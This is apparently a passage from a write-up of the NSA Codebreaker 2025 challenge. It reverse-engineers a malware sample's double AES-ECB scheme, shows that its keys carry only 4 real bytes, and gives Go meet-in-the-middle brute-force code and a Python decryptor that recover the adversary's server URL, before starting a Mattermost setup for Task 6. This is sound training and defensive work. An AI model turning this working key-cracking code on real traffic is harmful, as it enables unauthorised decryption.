00000136  24 a3 b7 6d 45 46 3a 6a  fb 38 e6 43 4b 9c f8 ae   $..mEF:j .8.CK...
00000146  e0 e3 ae 53 db 69 df 09  fe 99 88 24 56 83 0b c4   ...S.i.. ...$V...
00000156  86 c4 bb af 7c d8 fe c4  b7 82 b4 4f 01 db 0f 1e   ....|... ...O....

    0000020B  7f 91 71 b6 52 fc 82 ca  32 0a 0a e6 7c b7 4b ad   ..q.R... 2...|.K.
    0000021B  5e 4f b0 22 16 2e 6f 9a  bf 51 4b fe c1 a5 64 b3   ^O."..o. .QK...d.
    0000022B  42 2c 3c 4c 82 38 df 66  8e ee e0 0f df 87 99 18   B,<L.8.f ........
    0000023B  80 8f c4 fd 93 24 7d 50  68 c9 41 f8 fc 4d 61 64   .....$}P h.A..Mad
    0000024B  86 c4 bb af 7c d8 fe c4  b7 82 b4 4f 01 db 0f 1e   ....|... ...O....
```

So we have to actually somehow decrypt these messages, but how do we do that?

#### The Achilles Heel

Well, we can find the constructor for the `Comms` class

```c
/* Comms::Comms() */

void __thiscall Comms::Comms(Comms *this)

{
  Comms *pCVar1;
  Comms *pCVar2;
  EVP_CIPHER_CTX *pEVar3;
  
  *(undefined4 *)(this + 0x38) = 0;
  pCVar1 = this + 0x14;
  pCVar2 = this + 0x24;
  *(undefined8 *)(this + 0x40) = 0;
  *(undefined4 *)this = 0xffffffff;
  this[0x34] = (Comms)0x0;
  *(undefined (*) [16])(this + 0x14) = (undefined  [16])0x0;
  *(undefined (*) [16])(this + 0x24) = (undefined  [16])0x0;
  pEVar3 = EVP_CIPHER_CTX_new();
  *(EVP_CIPHER_CTX **)(this + 0x48) = pEVar3;
  pEVar3 = EVP_CIPHER_CTX_new();
  *(EVP_CIPHER_CTX **)(this + 0x50) = pEVar3;
  pEVar3 = EVP_CIPHER_CTX_new();
  *(EVP_CIPHER_CTX **)(this + 0x58) = pEVar3;
  pEVar3 = EVP_CIPHER_CTX_new();
  *(EVP_CIPHER_CTX **)(this + 0x60) = pEVar3;
  gen_key(this,(uchar *)pCVar1,0x10);
  gen_key(this,(uchar *)pCVar2,0x10);
  this[0x34] = (Comms)0x1;
  aes_init_enc(pCVar1,*(undefined8 *)(this + 0x48));
  aes_init_enc(pCVar2,*(undefined8 *)(this + 0x50));
  aes_init_dec(pCVar1,*(undefined8 *)(this + 0x58));
  aes_init_dec(pCVar2,*(undefined8 *)(this + 0x60));
  return;
}
```

From my function naming, we can see that it generates two keys using a `gen_key` function. It then uses these keys to initialize two different AES ECB contexts, both consisting of the corresponding encrypt and decrypt contexts

Why does it generate two keys and initialize two different AES ECB contexts?

Well, we've kind of already implied this a little bit earlier when going over the handshake functions, but if we look at how the binary sends messages, we can see that it performs some kind of custom encryption scheme on messages before it sends them

```c
void custom_enc(undefined8 param_1,undefined8 param_2,undefined8 param_3,int param_4,
               undefined8 param_5,undefined8 param_6)

{
  void *__ptr;
  long in_FS_OFFSET;
  int local_44;
  long local_40;
  
  local_44 = param_4 + 0x10;
  local_40 = *(long *)(in_FS_OFFSET + 0x28);
  __ptr = malloc((long)local_44);
  aes_encrypt(param_1,param_3,param_4,__ptr,&local_44);
  aes_encrypt(param_2,__ptr,local_44,param_5,param_6);
  if (local_40 == *(long *)(in_FS_OFFSET + 0x28)) {
    free(__ptr);
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

As we can see, it encrypts messages twice, once with the first AES ECB context, and again with the second AES ECB context

```c
  aes_encrypt(param_1,param_3,param_4,__ptr,&local_44);
  aes_encrypt(param_2,__ptr,local_44,param_5,param_6);
```

Well that makes things a little harder. Thankfully, the bad actors messed up how they're generating the keys that initialize the AES ECB contexts

We can look at the function that generates said keys

```c
/* Comms::gen_key(unsigned char*, int) */

void __thiscall Comms::gen_key(Comms *this,uchar *param_1,int param_2)

{
  long lVar1;
  uint uVar2;
  ulong uVar3;
  ulong uVar4;
  long lVar5;
  long in_FS_OFFSET;
  undefined8 uStack_50;
  char local_48 [32];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  local_48[0] = '\0';
  local_48[1] = '\0';
  local_48[2] = '\0';
  local_48[3] = '\0';
  local_48[4] = '\0';
  local_48[5] = '\0';
  local_48[6] = '\0';
  local_48[7] = '\0';
  local_48[8] = '\0';
  local_48[9] = '\0';
  local_48[10] = '\0';
  local_48[11] = '\0';
  local_48[12] = '\0';
  local_48[13] = '\0';
  local_48[14] = '\0';
  local_48[15] = '\0';
  local_48[16] = '\0';
  local_48[17] = '\0';
  local_48[18] = '\0';
  local_48[19] = '\0';
  local_48[20] = '\0';
  local_48[21] = '\0';
  local_48[22] = '\0';
  local_48[23] = '\0';
  local_48[24] = '\0';
  local_48[25] = '\0';
  local_48[26] = '\0';
  local_48[27] = '\0';
  local_48[28] = '\0';
  local_48[29] = '\0';
  local_48[30] = '\0';
  local_48[31] = '\0';
  uStack_50 = (undefined *)0x10705e;
  generate_key((uint8_t)local_48,0x20);
  uVar2 = 0x20;
  if (param_2 < 0x21) {
    uVar2 = param_2;
  }
  uVar4 = (ulong)(int)uVar2;
  if (uVar4 < 8) {
    if ((uVar4 & 4) == 0) {
      if (uVar4 != 0) {
        *param_1 = local_48[0];
        if ((uVar2 & 2) != 0) {
          *(undefined2 *)(param_1 + (uVar4 - 2)) = *(undefined2 *)(local_48 + (uVar4 - 2));
        }
      }
    }
    else {
      *(undefined4 *)param_1 = local_48._0_4_;
      *(undefined4 *)(param_1 + (uVar4 - 4)) = *(undefined4 *)(local_48 + (uVar4 - 4));
    }
  }
  else {
    *(undefined8 *)param_1 = local_48._0_8_;
    *(undefined8 *)(param_1 + (uVar4 - 8)) = *(undefined8 *)(local_48 + (uVar4 - 8));
    lVar5 = (long)param_1 - ((ulong)(param_1 + 8) & 0xfffffffffffffff8);
    uVar4 = uVar4 + lVar5 & 0xfffffffffffffff8;
    if (7 < uVar4) {
      uVar3 = 0;
      do {
        *(undefined8 *)(((ulong)(param_1 + 8) & 0xfffffffffffffff8) + uVar3) =
             *(undefined8 *)(local_48 + (uVar3 - lVar5));
        uVar3 = uVar3 + 8;
      } while (uVar3 < uVar4);
    }
  }
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    uStack_50 = &UNK_00107114;
    __stack_chk_fail();
  }
  return;
}
```

This looks pretty complicated, but essentially, the key generation appears to be flawed, since the majority of the key is actually zeroed out according to this disassembly. This is a huge weakness in the encryption scheme. 

I wanted to be 100% sure of this however, since I also looked at the disassembly in Binja and it differed a little bit from the Ghidra disassembly. I did trust what Ghidra was giving us, but you can never be too sure. 

I used Python to import this `gen_key` function and run it, just to test our theory. First though I had to create a shared library wrapper to call said function since the function symbols are all garbled

```cpp
#include <cstdint>
#include <cstring>

extern "C" {
    // declare mangled symbols from the .so
    int _ZN5Comms7gen_keyEPhi(void* this_ptr, unsigned char* buf, int len);
    void _ZN5CommsC2Ev(void* this_ptr);
    void _ZN5CommsD1Ev(void* this_ptr);
}

struct CommsWrapper {
    unsigned char key[32];

    // construct, call gen_key, store in key
    void gen() {
        // allocate actual Comms object on stack
        unsigned char obj[0x400]; // guess object size
        _ZN5CommsC2Ev(obj);      // call constructor
        _ZN5Comms7gen_keyEPhi(obj, key, sizeof(key));
        _ZN5CommsD1Ev(obj);      // call destructor
    }
};

extern "C" void gen_key_bytes(unsigned char* out_buf) {
    CommsWrapper w;
    w.gen();
    std::memcpy(out_buf, w.key, sizeof(w.key));
}
```

I got said symbols by just running strings on the binary and grepping for function names since we know them (I should preface that I did not name `gen_key`, it was already named that). Additionally, the base object constructor is usually `C2Ev` and the complete destructor is `D1Ev` (with `Ev` meaning that the function takes no arguments)

```bash
┌──(archangel✝LAPTOP-2ESFOORT)-[~/comps/nsa-codebreaker/nsa-codebreaker-2025/task4]
└─$ strings mimic_p21658_p416785_zlib.bin | grep gen_key
_ZN5Comms7gen_keyEPhi

┌──(archangel✝LAPTOP-2ESFOORT)-[~/comps/nsa-codebreaker/nsa-codebreaker-2025/task4]
└─$ strings mimic_p21658_p416785_zlib.bin | grep "C2Ev"
_ZN5CommsC2Ev

┌──(archangel✝LAPTOP-2ESFOORT)-[~/comps/nsa-codebreaker/nsa-codebreaker-2025/task4]
└─$ strings mimic_p21658_p416785_zlib.bin | grep "D1Ev"                                                              
_ZN5CommsD1Ev
```

Compiling this shared library wrapper as `comms_wrapper.so`, we can then use Python to call `gen_key`

```python
from ctypes import CDLL, create_string_buffer

lib = CDLL("./comms_wrapper.so")
buf = create_string_buffer(16)
lib.gen_key_bytes(buf)
print("generated key:", buf.raw.hex())

buf2 = create_string_buffer(16)
lib.gen_key_bytes(buf2)
print("generated key:", buf2.raw.hex())
```

I call it twice each run just to make sure that what we're getting is deterministic. 

Running this gets us

```
generated key: 88683800000000000000000000000000
generated key: f8510102000000000000000000000000
```

Well would you look at that, we were right! The majority of the key is indeed zeroed out. Good job kind of odd Ghidra disassembly. 

It appears that only the first 4 bytes of the keys actually contain data, while the remaining bytes are all zeroes. This is huge, this means that brute forcing these keys is actually feasible. 

Ok, so we know what we have to do. We have to brute force the correct keys since they are mathematically feasible to crack due to the much smaller key space (since only the first 4 bytes for each key matters), and we can check if we are correct since we already know the plaintext (`REQCONN` and `REQCONN_OK`, with `dec0dec0ffee` as the headers) of some of the ciphertexts we have

#### Meet me in the middle

Since we are cracking two keys, to save time, we can perform what is called a ["Meet in the Middle"](https://en.wikipedia.org/wiki/Meet-in-the-middle_attack) attack

Essentially, we encrypt the known plaintext forward with all possible variations of the first key

We then decrypt the ciphertext backward with all possible variations of the second key

We then look for a match in the middle. If we get one, we have found our two keys. 

I end up creating a program that can do this for us in Go. I will warn the program is pretty long (I sorta just had AI cook something up). There's probably a better, more efficient way to do this. 

Regardless, what the program does is it tries every possible value for each key, computes the intermediate encryption and decryption results, and saves those to disk in sorted chunks so it doesn’t need to keep everything in memory. It then streams through both result sets to find matches and verifies any candidate key pairs by decrypting the full ciphertext and checking for our known plaintext, that being `0xDE, 0xC0, 0xDE, 0xC0, 0xFF, 0xEE, 'R', 'E', 'Q', 'C', 'O', 'N', 'N'` since that will be the message I'll be trying to crack

```go
// mitm-runner.go
// Build: go build -o mitm-runner mitm-runner.go
// Usage example:
// ./mitm-runner -cipher f4dd46... -tmp /tmp/mitmtmp -chunk 1048576 -workers 8
package main

import (
	"container/heap"
	"crypto/aes"
	"encoding/binary"
	"encoding/hex"
	"flag"
	"fmt"
	"io"
	"os"
	"path/filepath"
	"runtime"
	"sort"
	"sync"
	"time"
)

const TOTAL_KEYS uint32 = 1 << 26

type Rec struct {
	Key [16]byte
	K   uint32
}

func constructKeyFromV(v uint32) []byte {
	k := make([]byte, 16)
	k[0] = byte(v & 0xff)
	k[1] = byte((v >> 8) & 0xff)
	k[2] = byte((v >> 16) & 0xff)
	k[3] = byte((v >> 24) & 0xff)
	return k
}

func ecbEncryptBlock(key []byte, in []byte) ([]byte, error) {
	c, err := aes.NewCipher(key)
	if err != nil {
		return nil, err
	}
	out := make([]byte, 16)
	c.Encrypt(out, in)
	return out, nil
}

func ecbDecryptBlock(key []byte, in []byte) ([]byte, error) {
	c, err := aes.NewCipher(key)
	if err != nil {
		return nil, err
	}
	out := make([]byte, 16)
	c.Decrypt(out, in)
	return out, nil
}

// writeRecords writes slice of records to file in binary: 16 bytes key + 4 bytes little-endian k
func writeRecords(path string, recs []Rec) error {
	f, err := os.Create(path)
	if err != nil {
		return err
	}
	defer f.Close()
	buf := make([]byte, 20)
	for _, r := range recs {
		copy(buf[:16], r.Key[:])
		binary.LittleEndian.PutUint32(buf[16:], r.K)
		_, err := f.Write(buf)
		if err != nil {
			return err
		}
	}
	return nil
}

// read one record from file (expects file pointer positioned correctly)
func readRecord(f *os.File, r *Rec) (bool, error) {
	var buf [20]byte
	n, err := io.ReadFull(f, buf[:])
	if err != nil {
		if err == io.EOF || err == io.ErrUnexpectedEOF {
			return false, nil
		}
		return false, err
	}
	if n != 20 {
		return false, nil
	}
	copy(r.Key[:], buf[:16])
	r.K = binary.LittleEndian.Uint32(buf[16:])
	return true, nil
}

// HeapItem is the single heap element type used for k-way merge.
type HeapItem struct {
	idx int
	key [16]byte
	rec Rec
}

// minHeap implements container/heap.Interface using HeapItem
type minHeap []HeapItem

func (h minHeap) Len() int           { return len(h) }
func (h minHeap) Less(i, j int) bool { return string(h[i].key[:]) < string(h[j].key[:]) }
func (h minHeap) Swap(i, j int)      { h[i], h[j] = h[j], h[i] }

func (h *minHeap) Push(x interface{}) {
	*h = append(*h, x.(HeapItem))
}

func (h *minHeap) Pop() interface{} {
	old := *h
	n := len(old)
	it := old[n-1]
	*h = old[:n-1]
	return it
}

// chunk generation for k1 or k2 types
func generateChunks(tmpdir string, prefix string, start, end uint32, chunkEntries uint32, workers int, block16 []byte, isK1 bool) ([]string, error) {
	var chunkFiles []string
	var wg sync.WaitGroup
	tasks := make(chan uint32, 1<<16)
	errChan := make(chan error, 1)
	var mu sync.Mutex

	// worker pool: compute in parallel and send results to writer goroutine
	type outChunk struct {
		idx  uint32
		recs []Rec
	}
	outChan := make(chan outChunk, 4)

	for w := 0; w < workers; w++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			for base := range tasks {
				limit := base + chunkEntries
				if limit > end {
					limit = end
				}
				recs := make([]Rec, 0, limit-base)
				for v := base; v < limit; v++ {
					key := constructKeyFromV(v)
					var out16 []byte
					var err error
					if isK1 {
						out16, err = ecbEncryptBlock(key, block16)
					} else {
						out16, err = ecbDecryptBlock(key, block16)
					}
					if err != nil {
						select {
						case errChan <- err:
						default:
						}
						return
					}
					var k16 [16]byte
					copy(k16[:], out16[:16])
					recs = append(recs, Rec{Key: k16, K: v})
				}
				outChan <- outChunk{idx: base, recs: recs}
			}
		}()
	}

	// writer goroutine: receives chunks, sorts them, writes chunk file
	writerWg := sync.WaitGroup{}
	writerWg.Add(1)
	go func() {
		defer writerWg.Done()
		count := 0
		for oc := range outChan {
			sort.Slice(oc.recs, func(i, j int) bool {
				return string(oc.recs[i].Key[:]) < string(oc.recs[j].Key[:])
			})
			chfile := filepath.Join(tmpdir, fmt.Sprintf("%s_chunk_%08x.bin", prefix, oc.idx))
			if err := writeRecords(chfile, oc.recs); err != nil {
				select {
				case errChan <- err:
				default:
				}
				return
			}
			mu.Lock()
			chunkFiles = append(chunkFiles, chfile)
			mu.Unlock()
			count++
		}
	}()

	// feed tasks
	for base := start; base < end; base += chunkEntries {
		tasks <- base
	}
	close(tasks)

	// wait
	wg.Wait()
	close(outChan)
	writerWg.Wait()

	// check errors
	select {
	case e := <-errChan:
		return nil, e
	default:
	}

	return chunkFiles, nil
}

// k-way merge chunk files into a single sorted file
func mergeChunkFiles(chunkFiles []string, outpath string) error {
	// open all files
	type readerState struct {
		f   *os.File
		rec Rec
		ok  bool
	}
	rs := make([]*readerState, 0, len(chunkFiles))
	for _, p := range chunkFiles {
		f, err := os.Open(p)
		if err != nil {
			return err
		}
		r := &readerState{f: f}
		ok, err := readRecord(f, &r.rec)
		if err != nil {
			return err
		}
		if ok {
			r.ok = true
			rs = append(rs, r)
		} else {
			f.Close()
		}
	}
	// min-heap by key
	h := &minHeap{}
	heap.Init(h)
	for i, r := range rs {
		heap.Push(h, HeapItem{idx: i, key: r.rec.Key, rec: r.rec})
	}

	outf, err := os.Create(outpath)
	if err != nil {
		return err
	}
	defer outf.Close()

	buf := make([]byte, 20)
	for h.Len() > 0 {
		it := heap.Pop(h).(HeapItem)
		copy(buf[:16], it.rec.Key[:])
		binary.LittleEndian.PutUint32(buf[16:], it.rec.K)
		if _, err := outf.Write(buf); err != nil {
			return err
		}
		// advance reader it.idx
		rsIdx := it.idx
		ok, err := readRecord(rs[rsIdx].f, &rs[rsIdx].rec)
		if err != nil {
			return err
		}
		if ok {
			heap.Push(h, HeapItem{idx: rsIdx, key: rs[rsIdx].rec.Key, rec: rs[rsIdx].rec})
		} else {
			rs[rsIdx].f.Close()
		}
	}

	return nil
}

// stream-merge sorted k1 file and k2 file; when keys equal, verify full ciphertext
func mergeTwoFilesAndVerify(k1path, k2path string, ct []byte, verifyPrefix []byte) error {
	f1, err := os.Open(k1path)
	if err != nil {
		return err
	}
	defer f1.Close()
	f2, err := os.Open(k2path)
	if err != nil {
		return err
	}
	defer f2.Close()

	var r1, r2 Rec
	ok1, err := readRecord(f1, &r1)
	if err != nil {
		return err
	}
	ok2, err := readRecord(f2, &r2)
	if err != nil {
		return err
	}

	for ok1 && ok2 {
		s1 := string(r1.Key[:])
		s2 := string(r2.Key[:])
		if s1 < s2 {
			ok1, err = readRecord(f1, &r1)
			if err != nil {
				return err
			}
			continue
		}
		if s2 < s1 {
			ok2, err = readRecord(f2, &r2)
			if err != nil {
				return err
			}
			continue
		}
		// s1 == s2
		var k1s []uint32
		var k2s []uint32
		cur := r1
		for ok1 && string(cur.Key[:]) == s1 {
			k1s = append(k1s, cur.K)
			ok1, err = readRecord(f1, &cur)
			if err != nil {
				return err
			}
		}
		cur2 := r2
		for ok2 && string(cur2.Key[:]) == s2 {
			k2s = append(k2s, cur2.K)
			ok2, err = readRecord(f2, &cur2)
			if err != nil {
				return err
			}
		}
		// verify cross product
		for _, k1v := range k1s {
			k1key := constructKeyFromV(k1v)
			for _, k2v := range k2s {
				k2key := constructKeyFromV(k2v)
				// verify: decrypt with k2 then k1 -> should equal plaintext starting with verifyPrefix
				mid := make([]byte, len(ct))
				for i := 0; i < len(ct); i += 16 {
					block := ct[i : i+16]
					decblock, err := ecbDecryptBlock(k2key, block)
					if err != nil {
						return err
					}
					copy(mid[i:i+16], decblock)
				}
				pt := make([]byte, len(ct))
				for i := 0; i < len(mid); i += 16 {
					block := mid[i : i+16]
					decblock, err := ecbDecryptBlock(k1key, block)
					if err != nil {
						return err
					}
					copy(pt[i:i+16], decblock)
				}
				if len(pt) >= len(verifyPrefix) && string(pt[:len(verifyPrefix)]) == string(verifyPrefix) {
					fmt.Printf("FOUND keys: k1=0x%08x k2=0x%08x\n", k1v, k2v)
					return nil 
				}
			}
		}
	}

	return nil
}

func main() {
	var cipherHex string
	var tmpdir string
	var chunkEntries uint64
	var workers int
	flag.StringVar(&cipherHex, "cipher", "", "ciphertext hex (required)")
	flag.StringVar(&tmpdir, "tmp", "./mitm_tmp", "temporary directory for chunk files")
	flag.Uint64Var(&chunkEntries, "chunk", 1<<20, "number of entries per chunk (tune smaller for low RAM)")
	flag.IntVar(&workers, "workers", runtime.NumCPU(), "parallel workers for chunk generation")
	flag.Parse()

	if cipherHex == "" {
		fmt.Println("cipher required")
		os.Exit(1)
	}
	ct, err := hex.DecodeString(cipherHex)
	if err != nil {
		panic(err)
	}
	if len(ct)%16 != 0 {
		panic("cipher length must be multiple of 16")
	}
	verifyPrefix := []byte{0xDE, 0xC0, 0xDE, 0xC0, 0xFF, 0xEE, 'R', 'E', 'Q', 'C', 'O', 'N', 'N'}

	if err := os.MkdirAll(tmpdir, 0755); err != nil {
		panic(err)
	}

	chunk := uint32(chunkEntries)
	fmt.Printf("Generating k1 chunks...\n")
	start := uint32(0)
	end := TOTAL_KEYS
	P1 := make([]byte, 16)
	copy(P1, verifyPrefix)
	if len(verifyPrefix) < 16 {
		pad := 16 - len(verifyPrefix)
		for i := len(verifyPrefix); i < 16; i++ {
			P1[i] = byte(pad)
		}
	}
	k1Chunks, err := generateChunks(tmpdir, "k1", start, end, chunk, workers, P1, true)
	if err != nil {
		panic(err)
	}
	fmt.Printf("k1 chunks: %d\n", len(k1Chunks))

	fmt.Printf("Merging k1 chunks into k1_all.dat ...\n")
	k1All := filepath.Join(tmpdir, "k1_all.dat")
	if err := mergeChunkFiles(k1Chunks, k1All); err != nil {
		panic(err)
	}
	fmt.Printf("k1 merged at %s\n", k1All)

	// k2 using first ciphertext block
	C1 := ct[:16]
	fmt.Printf("Generating k2 chunks...\n")
	k2Chunks, err := generateChunks(tmpdir, "k2", 0, TOTAL_KEYS, chunk, workers, C1, false)
	if err != nil {
		panic(err)
	}
	fmt.Printf("k2 chunks: %d\n", len(k2Chunks))

	fmt.Printf("Merging k2 chunks into k2_all.dat ...\n")
	k2All := filepath.Join(tmpdir, "k2_all.dat")
	if err := mergeChunkFiles(k2Chunks, k2All); err != nil {
		panic(err)
	}
	fmt.Printf("k2 merged at %s\n", k2All)

	fmt.Printf("Streaming merge and verify...\n")
	t0 := time.Now()
	if err := mergeTwoFilesAndVerify(k1All, k2All, ct, verifyPrefix); err != nil {
		panic(err)
	}
	fmt.Printf("Done in %s\n", time.Since(t0))
}
```

We can run this like so after compiling it as `mitm-runner`

```
./mitm-runner -cipher <CIPHER> -tmp /tmp/mitmtmp -chunk 1048576 -workers 8
```

For the cipher, as I mentioned before, I will use the relatively short message that is sent right after the `KEY_RECIEVED` message. This is the message that we believe decrypts to the `dec0dec0ffee` header and `REQCONN`

```
00000106  f4 dd 46 f9 82 34 1b 5d  da c9 0f f0 fd 70 c3 67   ..F..4.] .....p.g
00000116  86 c4 bb af 7c d8 fe c4  b7 82 b4 4f 01 db 0f 1e   ....|... ...O....
```

So the hex for that is 

```
f4dd46f982341b5ddac90ff0fd70c36786c4bbaf7cd8fec4b782b44f01db0f1e
```

I run our Go program with

```
./mitm-runner -cipher f4dd46f982341b5ddac90ff0fd70c36786c4bbaf7cd8fec4b782b44f01db0f1e -tmp /tmp/mitmtmp -chunk 1048576 -workers 8
```

and hope for the best

The program first generates all the intermediate encryption and decryption results, which takes a while. It then goes through all of them to find matches, which was actually pretty fast. It then tells us that it was able to find two keys that worked!

```
Generating k1 chunks...
k1 chunks: 64
Merging k1 chunks into k1_all.dat ...
k1 merged at /tmp/mitmtmp/k1_all.dat
Generating k2 chunks...
k2 chunks: 64
Merging k2 chunks into k2_all.dat ...
k2 merged at /tmp/mitmtmp/k2_all.dat
Streaming merge and verify...
FOUND keys: k1=0x0309d694 k2=0x00617d73
Done in 24.182218213s
```

Well, we can now make a Python script to test if these keys are correct. We compile all of the encrypted messages from the Wireshark transmissions, and try to decrypt them using our found keys


```python
from Crypto.Cipher import AES
from binascii import unhexlify
import sys

# messages to decode (hex strings)
msgs = [
    "f4dd46f982341b5ddac90ff0fd70c36786c4bbaf7cd8fec4b782b44f01db0f1e",
    "68b7847dbd4c602d5807a7fe8943459b804d5b0e9cf604ffd2c59eeea3a8980686c4bbaf7cd8fec4b782b44f01db0f1e",
    "02db7bd54fed23d12d48599de5252dc624a3b76d45463a6afb38e6434b9cf8aee0e3ae53db69df09fe99882456830bc486c4bbaf7cd8fec4b782b44f01db0f1e",
    "7f9171b652fc82ca320a0ae67cb74bad5e4fb022162e6f9abf514bfec1a564b3422c3c4c8238df668eeee00fdf879918808fc4fd93247d5068c941f8fc4d616486c4bbaf7cd8fec4b782b44f01db0f1e"
]

# expected prefix
expected_prefix = unhexlify("DEC0DEC0FFEE")

def key_from_v(v):
    # v: integer, produce 16-byte AES-128 key: little-endian 4 bytes then 12 zeros
    return v.to_bytes(4, "little") + b"\x00"*12

# candidate values (integers)
k1_v = 0x0309d694
k2_v = 0x00617d73

k1 = key_from_v(k1_v)
k2 = key_from_v(k2_v)

print("k1 (hex):", k1.hex())
print("k2 (hex):", k2.hex())
print("expected prefix (hex):", expected_prefix.hex())
print()

for i, mhex in enumerate(msgs, start=1):
    print(f"=== msg {i} ===")
    try:
        ct = unhexlify(mhex)
    except Exception as e:
        print("Invalid hex for message:", mhex)
        print("Error:", e)
        continue

    # decrypt: C = E_k2(E_k1(P)) so decrypt with k2 then k1
    try:
        mid = AES.new(k2, AES.MODE_ECB).decrypt(ct)
        pt = AES.new(k1, AES.MODE_ECB).decrypt(mid)
    except Exception as e:
        print("Decryption error (k2 then k1):", e)
        pt = b""

    print("decrypted (k2->k1) hex:", pt.hex())
    print("decrypted (k2->k1) ascii:", pt.decode('utf-8', errors='replace'))
    if pt.startswith(expected_prefix):
        print("=> MATCH: plaintext starts with expected prefix.")
    else:
        print("=> NO MATCH with expected prefix.")

    # also show swapped order (just in case)
    try:
        mid_s = AES.new(k1, AES.MODE_ECB).decrypt(ct)
        pt_s = AES.new(k2, AES.MODE_ECB).decrypt(mid_s)
    except Exception as e:
        print("Decryption error (k1 then k2):", e)
        pt_s = b""

    print("--- swapped (k1->k2) hex:", pt_s.hex())
    print("--- swapped (k1->k2) ascii:", pt_s.decode('utf-8', errors='replace'))
    if pt_s.startswith(expected_prefix):
        print("=> MATCH with swapped order (unexpected).")
    else:
        print("=> NO MATCH with swapped order.")
    print()
```

Running this gets us

```
k1 (hex): 94d60903000000000000000000000000
k2 (hex): 737d6100000000000000000000000000
expected prefix (hex): dec0dec0ffee

=== msg 1 ===
decrypted (k2->k1) hex: dec0dec0ffee524551434f4e4e0303039afb71e62754886f48d3bdb8edbe6e3c
decrypted (k2->k1) ascii: ������REQCONN��q�'T�oHӽ���n<
=> MATCH: plaintext starts with expected prefix.
--- swapped (k1->k2) hex: 61894c1530ba12ca9e5f3d586271a4b0a5510e759d867cf26dd454c0addd2b43
--- swapped (k1->k2) ascii: a�L0�ʞ_=Xbq���Qu��|�m�T���+C
=> NO MATCH with swapped order.

=== msg 2 ===
decrypted (k2->k1) hex: dec0dec0ffee524551434f4e4e5f4f4b101010101010101010101010101010109afb71e62754886f48d3bdb8edbe6e3c
decrypted (k2->k1) ascii: ������REQCONN_OK��q�'T�oHӽ���n<
=> MATCH: plaintext starts with expected prefix.
--- swapped (k1->k2) hex: 96e32dec116222985c82ae5d354bf3bacfd12fb1ed566f74739eca5163236df7a5510e759d867cf26dd454c0addd2b43
--- swapped (k1->k2) ascii: ��-�b"�\��]5K���/��Vots��Qc#m��Qu��|�m�T���+C
=> NO MATCH with swapped order.

=== msg 3 ===
decrypted (k2->k1) hex: dec0dec0ffee444154412052455155455354206d61747465726d6f73745f75726c0f0f0f0f0f0f0f0f0f0f0f0f0f0f0f9afb71e62754886f48d3bdb8edbe6e3c
decrypted (k2->k1) ascii: ������DATA REQUEST mattermost_url��q�'T�oHӽ���n<
=> MATCH: plaintext starts with expected prefix.
--- swapped (k1->k2) hex: 07847bc1f1503cb1774d1654e2cb50778e478b1a5caab7ba27a44ede5b7c4235c58baca50a3440f6c810bf0ed7cadb14a5510e759d867cf26dd454c0addd2b43
--- swapped (k1->k2) ascii: �{��P<�wMT��Pw�G�\���'�N�[|B5ŋ��
4@�������Qu��|�m�T���+C
=> NO MATCH with swapped order.

=== msg 4 ===
decrypted (k2->k1) hex: dec0dec0ffee68747470733a2f2f3139382e35312e3130302e3136362f6d61747465726d6f73742f50574d38436d727858387145350b0b0b0b0b0b0b0b0b0b0b9afb71e62754886f48d3bdb8edbe6e3c
decrypted (k2->k1) ascii: ������https://198.51.100.166/mattermost/PWM8CmrxX8qE5


                                                                               ��q�'T�oHӽ���n<
=> MATCH: plaintext starts with expected prefix.
--- swapped (k1->k2) hex: df20fa7153da8f515ab1eaedce674116a77c4cfc3b0cb766ff4480ca3bb861f4b4713af66377996b9ab349e4a77b948a7f7e40a73ee6261e5025ee2dcba5dfc8a5510e759d867cf26dd454c0addd2b43
--- swapped (k1->k2) ascii: � �qSڏQZ����gA�|L�;
                                               �f�D��;�a��q:�cw�k��I�{��~@�>�&P%�-˥�ȥQu��|�m�T���+C
=> NO MATCH with swapped order.
```

Lots of output here, but the first encrypted message decrypts to `dec0dec0ffee524551434f4e4e0303039afb71e62754886f48d3bdb8edbe6e3c`, which is the `dec0dec0ffee` header and then `REQCONN`, exactly as we expected

The second encrypted message decrypts to the `dec0dec0ffee` header and `REQCONN_OK`, again, exactly as we expected

The third encrypted message decrypts to the `dec0dec0ffee` header and `DATA REQUEST mattermost_url`

The last encrypted message decrypts to the `dec0dec0ffee` header and `https://198.51.100.166/mattermost/PWM8CmrxX8qE5` 

Bingo! The last message has exactly what we need

This task asked us to "submit the full URL to the adversary's server"

Submitting `https://198.51.100.166/mattermost/PWM8CmrxX8qE5` solves this task!

**Response**:
> Brilliant! The malware communications lead us right to the adversary's Mattermost server!

# Task 6 - Crossing the Channel - (Vulnerability Research)

> This high visibility investigation has garnered a lot of agency attention. Due to your success, your team has designated you as the lead for the tasks ahead. Partnering with CNO and CYBERCOM mission elements, you work with operations to collect the persistent data associated with the identified Mattermost instance. Our analysts inform us that it was obtained through a one-time opportunity and we must move quickly as this may hold the key to tracking down our adversary! We have managed to create an account but it only granted us access to one channel. The adversary doesn't appear to be in that channel.

> We will have to figure out how to get into the same channel as the adversary. If we can gain access to their communications, we may uncover further opportunity.

> You are tasked with gaining access to the same channel as the target. The only interface that you have is the chat interface in Mattermost!


> Downloads: Mattermost instance (volumes.tar.gz), User login (user.txt)

> Prompt: Submit a series of commands, one per line, given to the Mattermost server which will allow you to gain access to a channel with the adversary.

### Solve:

Unironically the longest part of this task was getting everything setup when I first went through it. 

#### Setup

We are given the login for a user, as well as a Mattermost instance. Firstly, we need to install Mattermost itself. I followed [these](https://docs.mattermost.com/deployment-guide/server/deploy-linux.html) instructions. All you need to do is the part where you install Mattermost server, you don't need anything else past that. You will have to tweak `/opt/mattermost/config/config.json` (assuming that's where you saved Mattermost to if you followed the instructions word for word) to point to the correct PostgreSQL server. 

The `volumes` directory was specifically running on PostgreSQL version 13, or at the very least wouldn't let me use any modern versions of PostgreSQL. To handle this, we'll just use a Docker container to run PostgreSQL version 13, and also copy over the same data that's in `volumes`. This can be done with the below command

```
docker run -d   --name codebreaker_pg   -p 5432:5432   -v ~/comps/nsa-codebreaker/nsa-codebreaker-2025/task6/volumes/db/var/lib/postgresql/data:/var/lib/postgresql/data   -e POSTGRES_HOST_AUTH_METHOD=trust   postgres:13
```

